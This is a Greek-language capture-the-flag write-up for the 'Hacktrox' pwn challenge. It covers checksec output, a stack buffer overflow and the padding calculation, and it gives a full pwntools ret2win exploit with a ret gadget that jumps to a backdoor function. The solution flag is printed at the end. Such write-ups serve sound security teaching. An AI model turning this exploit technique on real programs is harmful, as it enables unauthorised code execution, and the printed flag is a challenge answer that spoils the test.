



# Hacktrox

| Δοκιμασία | 	Hacktrox |
| :------- | :----- |
| Δυσκολία | Εύκολη |
| Κατηγορία | Pwn |
| Λύσεις | 3 |
| Πόντοι | 595 |

### Επισκόπηση Δοκιμασίας

Δημιούργησε τα πιο χακερίστικα κείμενα που είδες ποτέ με το Hacktrox.

Το πρόγραμμα μας ζητάει το input μας και μετατρέπει το κείμενο που του δίνουμε Χακερίστικο, συγκεκριμένα αλλάζει τα συγκεκριμένα γράμματα σε αριθμούς. Πχ το "α" με το 4 το "ε" κτλπ.


```
-=[ Hacktrox 01010 ]=-
         - Version 1.0

~ Because Text Should Feel Like a Hacker's Playground!

Insert text > This is a hacking test

Original text: This is a hacking test

Hacktrox result: Th15 15 4 h4ck1ng t35t

Thank you for using our app x)
```

# Επίλυση Δοκιμασίας

### Έλεγχος του αρχείου 

Αρχικά αφού δούμε τη λειτουργία του binary βλέπουμε λεπτομέρειες για το executable με την εντολή `file`.

```bash
file binary 
binary: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=68cfe9ca2ff5f86d10ce14ea570df3dc5399a0c7, for GNU/Linux 3.2.0, not strippe
```
- Dynamically linked 
  - Όταν ένα εκτελέσιμο πρόγραμμα είναι "dynamically linked" (δυναμικά συνδεδεμένο), αυτό σημαίνει ότι χρησιμοποιεί δυναμική σύνδεση με βιβλιοθήκες κατά την εκτέλεσή του. Αντί να ενσωματώνει όλο τον κώδικα των βιβλιοθηκών που χρησιμοποιεί απευθείας στο εκτελέσιμό του, το πρόγραμμα δεσμεύει δυναμικά τις βιβλιοθήκες αυτές κατά την εκτέλεση.   
- not stripped
  - Όταν το εκτελέσιμο πρόγραμμα είναι "not stripped" ουσιαστικά δεν αφαιρεί την πληροφορία από τον κώδικά του. Αυτή η πληροφορία περιλαμβάνει συνήθως συμβολικά ονόματα, σύμβολα, και άλλες πληροφορίες που χρησιμοποιούνται κατά την ανάπτυξη και την αποσφαλμάτωση του κώδικα

Έπειτα ελέγχουμε τα security mitigations. Αυτά που μας ενδιαφέρουν για το συγκεκριμένο είναι το canary και το pie τα οποία είναι disabled.

```bash
checksec --file binary 
[*] './binary'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```
- No canary
  - Ο όρος "canary" αναφέρεται στον "canary value" ή "stack cookie" που είναι ένα τυχαίο ή προκαθορισμένο αριθμητικό πεδίο που εισάγεται στον κώδικα μιας εφαρμογής. Αυτή η τεχνική είναι απερνεργοποιμένη και δεν θα μπορεί να μας εμποδίσει αν υπάρξει υπερχίληση μίας μεταβλητής στη μνήμη.
- No pie
  - Αυτό σημαίνει ότι το αρχείο θα φορτώνεται κάθε φορά στις ίδιες διεύθυνση μνήμης, αυτό σημαίνει ότι πάντα ξέρουμε που θα βρίσκονται οι συναρτήσεις του εκτελέσιμου προγράμματος.

### Στατική ανάλυση του κώδικα σε decomplier (ghidra)

Στο παρακάτω screenshot μπορούμε να δούμε ότι έχουμε ένα buffer overflow bug, καθώς έχουμε ένα buffer me 146 bytes length και μας αφήνει να δώσουμε inpupt ίσο με 180 bytes. Ο σκοπός μας είναι να πανωγράψουμε τον program counter με μία διεύθυνση μιας χρήσιμης συνάρτησης. Ευτυχώς για εμάς υπάρχει μια συνάρτηση που λέγεται backdoor και μας εμφανίζει τη σημαία.





Συνοψίζοντας, πρέπει να βρούμε το padding μέχρι να φτάσουμε στον program counter και να του δώσουμε την επιθυμητή τιμή (τη θέση μνήμης της συνάρτησης backdoor).

Το padding στη συγκεκριμένη περίπτωση μπορούμε να το υπολογίσουμε με το μάτι καθώς ειναι 136 ο buffer +8 bytes για το local_10 +8 bytes o RBP οπότε στο σύνολο 152 bytes. Τα επόμενα 8 θα είναι τα bytes του program counter(rip).

Ενναλακτικά με έναν debugger(gdb) με extension `pwnbdg` ή οπουδήποτε άλλο. Δίνοντας μια μεγάλη αλυσίδα από χαρακτήρες με τη χρήση του `cyclic <num_of_chars>` και μετά με τη χρήση του `cyclic -l` και τα bytes που είναι πάνω στον RSP. 



### Τελικό exploit

Χρησιμοποιώντας την βιβλιοθήκη pwntools μπορούμε να γράψουμε το τελικό exploit για local exploiataion καθώς και για remote.

### Warning!

Για να δουλέψει remotely το exploit πρέπει να συμπεριλάβουμε ένα ret gadget για το stack allignment περισσότερες πληροφορίες [εδώ](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/stack-alignment). 

Για να βρούμε ένα τέτοιο gadget μπορούμε να χρησιμοποιήσουμε το `ROPgadget` και συγκεκριμένα την εντολή: `ROPgadget --binary <name_of_the_executable> | grep ret`

```python

#!/usr/bin/python3
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

gdbscript = '''
continue
'''.format(**locals())

exe = './binary'

elf = context.binary = ELF(exe, checksec=False)

# Start program
io = start()

padding = 152*b"A"
win = p64(elf.sym.backdoor)
ret = p64(0x000000000040101a)

payload = padding + ret + win

io.sendline(payload)


io.interactive()
```


# Σημαία

`FLAG{h4cky_t3xt_f0r_th3_w1n}`


